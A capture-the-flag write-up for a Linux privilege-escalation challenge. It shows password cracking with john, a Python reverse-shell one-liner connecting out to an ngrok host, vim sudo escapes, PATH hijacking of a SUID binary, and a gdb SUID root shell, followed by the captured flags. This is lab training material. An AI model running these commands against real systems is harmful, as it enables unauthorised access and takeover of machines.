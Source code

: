 # escalation

## Description

Can you climb to the top?

Flag format: CTF{sha256}

## Solution

### Flag 1

Let's check the `note.txt` file first.

```text
T3jv1l@bit-sentinel:…/www/html# cat note.txt
I got unauthorized access to some hashes but my PC is too low-end to crack them. I hid them safely in the server, but I'm sure you can find them.


What are you waiting now? Crack away!

Oh, and if this helps, user2 can't shut up about cherries... I don't know what's gotten into him but he started to become annoying as hell. Please start with him!

And when you crack him down, don't forget to upgrade your shell!
```

Navigating to `/opt/.../` we can see a `shadow.bak` file containing the hashes. We will use this and the `/etc/passwd` file to crack the passwords. Just use the `rockyou.txt` wordlist and extract everything you find about cherries.

```zsh
┌──(matteoverz㉿DESKTOP-2JF4J6C)-[~/CTF/Unbreakable/Misc/escalation]
├─$ unshadow etcpasswd shadow > crackme
├─$ cat /usr/share/wordlist/rockyou.txt | grep cherry > passwords
└─$ john --wordlist=passwords crackme

Using default input encoding: UTF-8
Loaded 4 password hashes with 4 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!!cherry!!       (user2)     
1g 0:00:00:02 DONE (2023-08-27 22:21) 0.3773g/s 1069p/s 4277c/s 4277C/s bumcherry1..!!cherry!!
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Since we cannot use an interactive shell on the website provided, we need to spawn a reverse shell. I have used `ngrok` to expose public ip and the following payload:

```zsh
T3jv1l@bit-sentinel:…/www/html# export RHOST="5.tcp.eu.ngrok.io";export RPORT=18105;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

This gave me a reverse shell on my terminal and now could authenticate to `user2` with the password `!!cherry!!`.

The first flag is situated in `~/flag1.txt`:

```zsh
user2@t-d2-c12840u-l945-escalation-7cfbcf5b5-2csxm:~$ cat flag1.txt
Here's your first flag: ctf{d6285bf0fef00f1b70cb52bdf168d2b6463d53b484bd6da7e098b3d5617bddaa}

Good luck escalating!
```

### Flag 2

Running `sudo -l` on `user2`, we find out we can run `/usr/bin/vim` as `user3`. So we will just do that and then spawn a bash shell inside vim using `:!/bin/bash`.

Now we are authenticated using user3. The next flag is in `~/flag2.txt`

```zsh
user3@t-d2-c12840u-l945-escalation-7cfbcf5b5-2csxm:~$ cat flag2.txt
Here's your second flag: ctf{8c4384c8f1b5ae73359592cd5d34b4eeacea1c757989dacce29d637d2f4b25f1}

One more and you are on the top of the mountain!
```

### Flag 3

We will use SUID priviledge escalation

```zsh
user3@t-d2-c12840u-l945-escalation-7cfbcf5b5-2csxm:~$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/gdb
/usr/bin/fixpermissions
/usr/bin/sudo
/bin/umount
/bin/su
/bin/mount
```

`/usr/bin/fixpermissions` sounds interesting. Running `strings` on this binary, gives us an interesting command:

```bash
user3@t-d2-c12840u-l945-escalation-7cfbcf5b5-2csxm:~$ strings /usr/bin/fixpermissions | grep flag
chmod 600 /tmp/flag
```

Since this is not running `/bin/chmod`, but `chmod`, we can create our own `chmod` and set it to spawn a shell.

```zsh
user3@t-d2-c12840u-l945-escalation-7cfbcf5b5-2csxm:~$ cd /tmp
user3@t-d2-c12840u-l945-escalation-7cfbcf5b5-2csxm:/tmp$ mkdir .dummy
user3@t-d2-c12840u-l945-escalation-7cfbcf5b5-2csxm:/tmp$ cd .dummy
user3@t-d2-c12840u-l945-escalation-7cfbcf5b5-2csxm:/tmp/.dummy$ echo /bin/bash > chmod
user3@t-d2-c12840u-l945-escalation-7cfbcf5b5-2csxm:/tmp/.dummy$ chmod +x chmod
user3@t-d2-c12840u-l945-escalation-7cfbcf5b5-2csxm:/tmp/.dummy$ export PATH=/tmp/.dummy:$PATH
user3@t-d2-c12840u-l945-escalation-7cfbcf5b5-2csxm:/tmp/.dummy$ /usr/bin/fixpermissions
user4@t-d2-c12840u-l945-escalation-7cfbcf5b5-2csxm:~$ cd /home/user4
user4@t-d2-c12840u-l945-escalation-7cfbcf5b5-2csxm:/home/user4$ ls
flag3.txt
user4@t-d2-c12840u-l945-escalation-7cfbcf5b5-2csxm:/home/user4$ cat flag3.txt
All hail the privilege escalation master!

Here's the last flag: ctf{8d9f87dc5144aa305af81f2106eb723480bfc1a5f5ca34ef4374de2641814727}

Do you think this is enough?
```

### Flag 4

Coming back to the SUID's, we can also use `gdb`, which will help us with priviledge escalation. (<https://github.com/gurkylee/Linux-Privilege-Escalation-Basics>)

```zsh
$ gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
$ whoami
user5
```

Success! We are now logged in as `user5`.

```zsh
$ cd /home/user5
$ cat flag4.txt
Do you think is nothing to do? What about another flag little shrimp.

Flag: ctf{fca862cbd46080db28cbe3c541a0de84db1bb53baf1242d5532c6338e5634a4b}

           \.   \.      __,-"-.__      ./   ./
       \.   \`.  \`.-'"" _,="=._ ""`-.'/  .'/   ./
        \`.  \_`-''      _,="=._      ``-'_/  .'/
         \ `-',-._   _.  _,="=._  ,_   _.-,`-' /
      \. /`,-',-._"""  \ _,="=._ /  """_.-,`-,'\ ./
       \`-'  /    `-._  "       "  _.-'    \  `-'/
       /)   (         \    ,-.    /         )   (\
    ,-'"     `-.       \  /   \  /       .-'     "`-,
  ,'_._         `-.____/ /  _  \ \____.-'         _._`,
 /,'   `.                \_/ \_/                .'   `,\
/'       )                  _                  (       `\
        /   _,-'"`-.  ,++|T|||T|++.  .-'"`-,_   \
       / ,-'        \/|`|`|`|'|'|'|\/        `-, \
      /,'             | | | | | | |             `,\
     /'               ` | | | | | '               `\
                        ` | | | '
                          ` | '
```
